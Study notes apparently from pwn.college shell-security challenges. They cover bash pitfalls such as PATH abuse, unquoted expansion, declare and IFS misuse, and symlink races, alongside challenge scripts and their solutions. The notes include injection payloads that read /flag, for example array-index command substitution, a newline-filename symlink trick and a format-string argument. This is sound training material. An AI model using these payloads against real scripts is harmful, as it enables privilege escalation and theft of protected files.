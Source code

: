 # Module 1
## Environment Attack
### Vuln:
- abuse `PATH` variable

### Mit: 
- use absolute path in script (`unset PATH` does not solve the problem) 

## Race Condition, Symlink Attack
- Do not use `$0`.

---

# Module 2
## Shell Expansion
### Vuln:
- lacking quotes(examples: `$1`, `[A-Z]`, `$*`)

### Mit:
- use quotes

## Test Injection + Expansion
### Vuln:
- ```sh
  [ $1 -eq "$CHALLENGE" ]

## declare not safe
### Vuln:
- ```sh
  declare -- "$1"="$2"`
- abuse `IFS` variable

### Mit: 
- try sanitizing arguments

## Array Attack, Process Substitution, Abusing -eq
- `a[\$(cat /flag)]`

## Race Condition(again)
- Do not use `$0`.

## Subshell Attack with extra bracket
- `a[\$(</flag))]` (extra ')')

---

# Module 3
## Rhythm of Restriction

```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

### Solution
```sh
/challenge/run /bin/bash
$@
```

## Precision of Parameters
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

# Inspired by Orange Tsai

PATH=/usr/bin

WORKDIR=$(mktemp -p $(mktemp -d /tmp/XXXXXXX) -d XXXXXXXX) || exit 1
cd $WORKDIR

# some cleanup
HOME=$WORKDIR
unset OLDPWD # thanks, WilyWizard

cp /flag $WORKDIR
read -r INPUT
[ "${#INPUT}" -gt 5 ] && exit 2
sh -c "$INPUT" < /dev/null
```

### Vulnerability
- Command Injection

### Solution
```sh
/challenge/run
cat *
```



# Module 4
## Dance of the Disguised
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin
[ -n "$1" ] || exit 1

WORKDIR=$(mktemp -d) || exit 2
cp -rL "$1"/* $WORKDIR/files
cd $WORKDIR/files

# make sure there weren't linking shenanegans
grep -q "{" notflag* && exit 3

ls notflag* | while read FILE
do
	echo "###### FILE: $FILE #######"
	cat "$FILE"
done
```

### Vulnerability
`ls notflag* | while read FILE` (pitfall `#1`)

### Solution
- Create file with `\n` in it
```sh
ln -s /flag a
touch $'notflag\na'
```


## Script of the Silent
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

[ -n "$1" ] || exit 1
[ "$(realpath "$1")" != "/" ] || exit 1
[ "$(realpath "$1")" != "/flag" ] || exit 2

printf -v BACKUP_DIR "$1"
tar cvf /tmp/backup "$BACKUP_DIR"
```

### Vulnerability
- format string should be provided by user (pitfall `#32`)

### Solution
```sh
/challenge/run %s/flag
```




